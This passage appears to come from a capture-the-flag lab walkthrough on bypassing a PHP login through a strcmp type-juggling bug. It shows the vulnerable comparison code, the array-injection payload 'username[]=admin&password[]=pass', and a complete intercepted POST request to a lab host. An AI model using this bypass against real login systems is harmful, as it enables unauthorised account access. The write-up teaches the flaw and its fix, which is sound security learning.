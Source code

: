 If either the username or password does not match, the code triggers a JavaScript ```alert()``` popup notifying the user with the message "Wrong Username or Password."

Now, here's the issue:

```
if (strcmp($username , $_POST['username']) == 0) {
		if (strcmp($password, $_POST['password']) == 0) {
```

And now back to what the write-up has to say: *The developer is using the ```strcmp``` function to check the username and password combination. This function is used for string comparison and returns ```0``` when the two inputted values are identical, however, it is insecure and the authentication process can potentially be bypassed without having a valid username and password.*

*This is due to the fact that if ```strcmp``` is given an empty array to compare against the stored password, it will return ```NULL```. In PHP the ```==``` operator only checks the value of a variable for equality, and the value of ```NULL``` is equal to ```0```. The correct way to write this would be with the ```===``` operator which checks both value and type. These are prominently known as "Type Juggling bugs".*

*In PHP, variables can be easily converted into arrays if we add ```[]``` in front of them. For example:*

```
$username = "Admin"
$username[] = "Admin"
```

*Adding ```[]``` changes the variable ```$username``` to an array, which means that ```strcmp()``` will compare the array instead of a string.*

```
if (strcmp($username , $_POST['username']) == 0) {
		if (strcmp($password, $_POST['password']) == 0) {
```

*In the above code we see that if the comparison succeeds and returns ```0```, the login is successful. If we convert those variables into empty arrays ( ```$username[]``` & ```$password[]``` ), the comparison will return ```NULL```, and ```NULL == 0``` will return true, causing the login to be successful.*

*In order to exploit this vulnerability, we will need to intercept the login request in BurpSuite. To do so fire up BurpSuite and configure the browser to use it as a proxy, either with the FoxyProxy plugin or the Browser configuration page. Then send a login request with a random set of credentials and catch the request in Burp.*

*Change the POST data as follows to bypass the login.*

```
username[]=admin&password[]=pass
```

Here is the whole request:

```
POST /login/login.php HTTP/1.1
Host: 10.129.95.184
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Origin: http://10.129.95.184
Connection: close
Referer: http://10.129.95.184/login/login.php
Cookie: PHPSESSID=j6sut9tb6rurr1k8kt98ugijla
Upgrade-Insecure-Requests: 1

username[]=admin&password[]=pass
```